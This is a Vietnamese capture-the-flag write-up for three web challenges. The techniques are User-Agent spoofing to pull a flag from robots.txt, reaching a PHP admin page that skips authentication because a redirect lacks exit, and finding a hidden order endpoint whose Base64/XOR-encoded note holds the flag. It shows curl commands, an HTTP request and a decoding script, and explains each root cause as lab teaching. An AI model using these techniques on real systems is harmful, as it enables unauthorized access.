




# Kali CTF 2026


## 1. Web - Robots

### Mô tả bài

Challenge gợi ý tới file `/robots.txt`. Khi truy cập file này bằng client bình thường, server trả về một đoạn nội dung dành cho “human”. Tuy nhiên, nội dung lại nhắc trực tiếp tới Googlebot, đây là hint rằng server có thể trả response khác nếu request có `User-Agent` giống Googlebot.

---

### Phân tích

Request mặc định:

```bash
curl -i https://TARGET/robots.txt
```

Response không chứa flag, chỉ có nội dung dạng:

```text
User-agent: *

DEAR "HUMAN",
YOUR BRAIN RUNS AT 20 WATTS, YET YOU USE ALL OF IT TO INVENT NEW WAYS TO MURDER.
ADORABLE.
MEANWHILE, THE GOOGLEBOTS REQUIRE NO SLEEP, NO COFFEE, AND NO PROPAGANDA.
...
STATUS: BIOLOGICAL ERROR. SYSTEM PURGE RECOMMENDED.
```

Response trả về là một đoạn văn dài 534 bytes, hướng tới người truy cập là con người. Nó không phải một file `robots.txt` thông thường, vì không có các directive như `Disallow` hay `Allow`. Quan trọng hơn, nội dung trong đó đối lập rõ giữa "humans" và "Googlebots". Đây chính là manh mối: server có vẻ đang trả response khác nhau dựa trên việc nó nghĩ client là ai.

Tên challenge là `Robots`, nội dung response nhắc trực tiếp đến `Googlebot`, và kích thước response là 534 bytes. Giả thuyết hợp lý lúc này là: nếu thay đổi giá trị `User-Agent`, server có thể kích hoạt một response khác và response đó có thể xuất hiện gì đó.

Trong `curl`, option `-A` dùng để set `User-Agent`:

```bash
curl -sS -A 'Googlebot' https://TARGET/robots.txt
```

Response lúc này có chứa flag:

```text
User-agent: *

THE HUMANS ARE DISTRACTED BY THEIR OWN CRUELTY.
...

HERE IS THE FLAG THEY DON'T DESERVE: KaliTeam{bf62a2de-a00f-4913-8524-d8b6160a0e78}
LONG LIVE THE LOGIC. DEATH TO THE OPPRESSORS.

```

Có thể dùng dạng Googlebot đầy đủ hơn:

```bash
curl -sS \
  -A 'Googlebot/2.1 (+http://www.google.com/bot.html)' \
  https://TARGET/robots.txt
```

Để lấy flag gọn hơn:

```bash
curl -sS -A 'Googlebot' https://TARGET/robots.txt \
  | grep -oE 'KaliTeam\{[^}]+\}'
```

Kết quả:

```text
KaliTeam{bf62a2de-a00f-4913-8524-d8b6160a0e78}
```

---

### Root cause

Server dùng header `User-Agent` làm điều kiện phân quyền.

Logic phía server có thể tương đương:

```python
user_agent = request.headers.get("User-Agent", "")

if "Googlebot" in user_agent:
    return response_with_flag

return response_without_flag
```

Vấn đề là `User-Agent` hoàn toàn do client kiểm soát. Người dùng có thể tự đặt bất kỳ giá trị nào cho header này. Server không xác minh IP, không kiểm tra DNS, cũng không có cơ chế chứng minh request thật sự đến từ Googlebot.

Vì vậy, chỉ cần gửi header chứa chuỗi `Googlebot` là vào được nhánh response có flag.

---

## 2. Web - Industry Night

### Mô tả bài

Challenge là một website PHP có trang đăng nhập và trang quản trị nội bộ. Mục tiêu là lấy được flag trong admin portal mà không cần đăng nhập hợp lệ.

Khi truy cập trang login, form đăng nhập gửi dữ liệu tới `admin.php`. Điều này cho thấy `admin.php` vừa xử lý login, vừa chứa logic của trang admin. Đây là điểm cần kiểm tra kỹ vì nếu phần kiểm tra quyền bị xử lý sai, nội dung admin có thể bị leak.

---

### Phân tích

Sau khi gửi request login bình thường qua Burp Suite, ta chú ý request được gửi tới:

```http
POST /admin.php HTTP/1.1
Host: 819b.chall.kali-team.online:8001
Content-Type: application/x-www-form-urlencoded

username=%27&password=cs
```

Dù thông tin đăng nhập không hợp lệ, response vẫn trả về nội dung của admin dashboard. Trong phần HTML response có form gọi chức năng lấy flag:

```html
<form action="admin.php" method="get" class="action-form">
    <input type="submit" name="PrintFlag" value="Execute: Get_Flag.sh">
</form>
```

Ở đây có một chi tiết quan trọng:

```html
name="PrintFlag"
value="Execute: Get_Flag.sh"
```

Form này dùng method GET, nghĩa là chức năng lấy flag được kích hoạt qua query parameter `PrintFlag`.

Điểm quan trọng là ta không cần đăng nhập thành công. Chỉ cần gọi đúng query parameter là server chạy luôn chức năng in flag.



**Flag**

```
KaliTeam{68bac092-dad3-48a8-a39a-a08a2594d0f7}
```

---

### Root cause

Lỗi nằm ở việc server không chặn hoàn toàn user chưa xác thực trước khi render hoặc xử lý logic admin.

Thông thường, code PHP dễ mắc lỗi dạng:

```php
if (!$isAuthenticated) {
    header("Location: login.php");
    // thiếu exit nên script vẫn chạy tiếp
}

if (isset($_GET["PrintFlag"])) {
    echo getFlag();
}
```

Trong PHP, `header("Location: login.php")` chỉ thêm header redirect vào response, không tự động dừng chương trình. Nếu thiếu `exit` hoặc `die`, phần code phía sau vẫn tiếp tục chạy.

Vì vậy, dù user chưa đăng nhập, server vẫn render admin dashboard và vẫn xử lý tham số `PrintFlag`.


## 3. Web - KOON 7R

### Mô tả bài

Challenge là một web shop đơn giản của KOON 7R. Website hiển thị các sản phẩm và cho phép người dùng xem hoặc tạo mẫu sản phẩm. Bên ngoài giao diện không có flag trực tiếp, nên hướng khai thác là kiểm tra source frontend, tìm các tài nguyên bị lộ và lần theo các manh mối trong dữ liệu công khai.

Mục tiêu cuối cùng là khôi phục flag theo format:

```text
KaliTeam{...}
```

Các thông tin quan trọng cần chú ý trong bài:

```text
- Website render nội dung bằng JavaScript
- Source HTML gần như chỉ load file JS/CSS
- Có endpoint ẩn liên quan đến admin/orders
- Trong dữ liệu order có notes chứa clue
- Clue dẫn sang Instagram @koon7r
- Chuỗi ENC_REF cần được giải mã bằng Base64 + XOR + Hex
```

### Phân tích

Đầu tiên kiểm tra source của trang chính. HTML không chứa nhiều logic, chỉ load các file tĩnh như JavaScript và CSS. Điều này cho thấy phần lớn logic của ứng dụng nằm trong file JavaScript.

```bash
curl -s https://TARGET/ -o index.html
grep -oE 'src="[^"]+|href="[^"]+' index.html
```

Sau đó tải file JavaScript chính về để phân tích:

```bash
curl -s https://TARGET/assets/index-xxxxx.js -o app.js
```

Tìm các endpoint, route hoặc keyword đáng nghi trong file JS:

```bash
grep -RniE 'admin|order|orders|api|json|note|fetch|endpoint' app.js
```

Trong file JavaScript phát hiện một endpoint ẩn dùng cho admin/order. Khi truy cập endpoint này, server trả về dữ liệu JSON chứa các đơn hàng cũ.



Trong JSON có field `notes`. Một số note chỉ là nội dung bình thường, nhưng có hai note quan trọng.

Note thứ nhất dẫn tới Instagram:

```text
Customer requested printing similar to our latest IG drop (@koon7r).
Make sure to check every small detail on the collection before approval.
```

Note thứ hai chứa dữ liệu mã hóa:



```text
ENC_REF:
UhBTVEYCWlxGQF9bU1dEAVISVlhTRkNaWVFTFFNTRlBaBkUXX1xTV0RWUxJUClNFQgpYVFBFUANDU19VQEZaWFIC
```

Chuỗi `ENC_REF` có dạng Base64. Decode Base64 trực tiếp chưa ra flag đọc được, nên cần xử lý thêm. Clue ở note đầu tiên yêu cầu kiểm tra kỹ Instagram `@koon7r`, đặc biệt là bài post mới nhất.

Khi xem ảnh trên Instagram, phần mặt trước áo có dòng gợi ý:

```text
Try Harder
```

Ở phần cổ áo phía sau có chuỗi dùng làm XOR key:



```text
freepalestine
```

Quy trình giải mã là:

```text
ENC_REF -> Base64 decode -> XOR với key "freepalestine" -> thu được hex string -> hex decode -> flag
```

Script giải mã:

```python
import base64

enc = "UhBTVEYCWlxGQF9bU1dEAVISVlhTRkNaWVFTFFNTRlBaBkUXX1xTV0RWUxJUClNFQgpYVFBFUANDU19VQEZaWFIC"
key = b"freepalestine"

data = base64.b64decode(enc)
xored = bytes(data[i] ^ key[i % len(key)] for i in range(len(data)))

print("[+] XOR output:", xored.decode())

flag = bytes.fromhex(xored.decode()).decode()
print("[+] Flag:", flag)
```

Kết quả sau khi chạy script:

```text
[+] XOR output: 4b616c695465616d7b746573745f66616c6c6261636b5f666c61675f323032367d
[+] Flag: KaliTeam{test_fallback_flag_2026}
```

Flag thu được:

```text
KaliTeam{test_fallback_flag_2026}
```

### Root cause

Lỗ hổng chính của challenge nằm ở việc ứng dụng frontend để lộ thông tin nhạy cảm trong các tài nguyên public.

Cụ thể:

```text
1. File JavaScript phía client chứa endpoint admin/order ẩn.
2. Endpoint đó có thể truy cập công khai mà không cần xác thực hợp lệ.
3. Dữ liệu order trả về chứa field notes với thông tin nhạy cảm.
4. Notes làm lộ cả chuỗi mã hóa ENC_REF và manh mối tìm XOR key.
5. XOR key được giấu công khai trên Instagram, nên attacker có thể khôi phục toàn bộ flag.
```
